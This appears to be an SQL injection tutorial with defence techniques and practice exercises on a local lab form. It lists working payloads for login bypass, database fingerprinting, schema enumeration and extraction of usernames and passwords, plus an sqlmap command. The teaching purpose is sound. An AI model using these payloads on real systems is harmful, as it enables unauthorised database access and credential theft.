 # SQL Injection Fundamentals

SQL injection is a code injection technique that exploits vulnerabilities in applications that interact with databases. When successful, attackers can read sensitive data, modify database data, execute admin operations, and sometimes even issue commands to the operating system.

## Introduction

SQL injection occurs when user input is incorrectly filtered and directly incorporated into SQL statements. This allows attackers to manipulate queries and gain unauthorized access to databases.

```
# Security principle: Always validate and sanitize user input
```

## Types of SQL Injection

### In-band SQLi

- **Error-based**: Forces the database to generate error messages that may reveal information about the database structure
- **Union-based**: Uses the UNION SQL operator to combine results from multiple SELECT statements

### Blind SQLi

- **Boolean-based**: Asks the database true/false questions and determines the answer based on the response
- **Time-based**: Forces the database to wait before responding to determine if a condition is true or false

### Out-of-band SQLi

- Uses features that allow the database to make DNS or HTTP requests to deliver data to the attacker

## Basic SQL Injection Techniques

### Testing for Vulnerabilities

Start with simple tests to determine if a field is vulnerable:

```sql
' OR '1'='1
' OR 1=1 --
" OR 1=1 --
') OR ('1'='1
```

### Understanding Error Messages

Database error messages can reveal valuable information:

```
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '' at line 1
```

### Basic Exploitation

```sql
-- Retrieve all users
' OR 1=1; --

-- Bypass login
admin' --

-- Union-based attack
' UNION SELECT username, password FROM users; --
```

## Advanced Techniques

### Database Fingerprinting

Determining the database type helps tailor your attacks:

```sql
-- MySQL
' UNION SELECT @@version; --

-- Oracle
' UNION SELECT banner FROM v$version; --

-- SQL Server
' UNION SELECT @@version; --
```

### Information Schema Queries

```sql
-- List all tables (MySQL)
' UNION SELECT table_name, 2 FROM information_schema.tables; --

-- List all columns in a table (MySQL)
' UNION SELECT column_name, 2 FROM information_schema.columns WHERE table_name='users'; --
```

### Extracting Data

```sql
-- Get usernames and passwords
' UNION SELECT username, password FROM users; --

-- Combining data when limited to one column
' UNION SELECT concat(username, ':', password) FROM users; --
```

## Defense Techniques

### Prepared Statements

```php
// PHP PDO example
$stmt = $pdo->prepare('SELECT * FROM users WHERE username = ?');
$stmt->execute([$username]);
```

### Input Validation

```javascript
// JavaScript example
function isValidInput(input) {
  return /^[a-zA-Z0-9]+$/.test(input);
}
```

### Least Privilege

- Database users should have minimal required permissions
- Web applications should use limited-access accounts

## Exercises

1. **Basic Detection**: Given the login form at http://localhost:8080/login:

   - Try entering `admin' --` as the username
   - Document the application's response
   - Does it reveal evidence of SQL injection vulnerability?

2. **Database Enumeration**: Using a vulnerable search field:

   - Determine the database type with version queries
   - Find table names using information schema
   - Extract column names from a target table

3. **Data Extraction**: Retrieve sensitive information:

   - Extract usernames and passwords from the discovered user table
   - Use the UNION operator to extract data from multiple tables
   - Document all extracted information systematically

4. **Blind SQLi Practice**:
   - Construct a time-based injection to verify vulnerability
   - Extract data one character at a time using binary search technique
   - Create a script to automate the extraction process

## Common Tools

- **SQLmap**: Automated SQL injection detection and exploitation

  ```bash
  sqlmap -u "http://target.com/page.php?id=1" --dbs
  ```

- **Burp Suite**: Intercept and modify requests to test for injection points

- **OWASP ZAP**: Open-source web app scanner with SQLi detection

## Documentation Template

```
Target: [URL/endpoint]
Parameter tested: [parameter name]
Injection type: [Error-based/Union/Blind/etc.]

PAYLOADS USED:
- [list successful payloads]

DATABASE INFO:
- Type: [MySQL/MSSQL/Oracle/etc.]
- Version: [version number]

EXTRACTED SCHEMA:
- Tables: [discovered tables]
- Columns: [discovered columns]

EXTRACTED DATA:
- [sensitive data found]

RECOMMENDATIONS:
- [remediation steps]
```

Remember, always practice SQL injection techniques in a controlled, authorized environment.
